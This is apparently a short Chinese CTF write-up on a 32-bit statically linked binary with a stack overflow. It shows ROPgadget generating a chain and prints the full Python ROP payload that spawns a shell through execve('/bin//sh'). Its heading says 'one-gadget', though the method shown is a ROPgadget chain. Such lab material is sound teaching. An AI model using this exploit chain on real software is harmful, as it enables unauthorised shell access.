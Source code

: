 - `one-gadget`利用

1. `overflow()`函数中存在溢出

2. 没有`system`也没有输出函数

3. 没有`/bin/sh`或者`sh`可利用字段

4. 程序是静态链接

   ```shell
   bamuwe@qianenzhao:~$ file rop
   rop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=e9ed96cd1a8ea3af86b7b73048c909236d570d9e, not stripped
   ```

   

利用`ROPgadgets`工具生成`ROP`链

```shell
bamuwe@qianenzhao:~$ ROPgadget --binary rop --ropchain
```

生成`ROP`链

```python
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
```
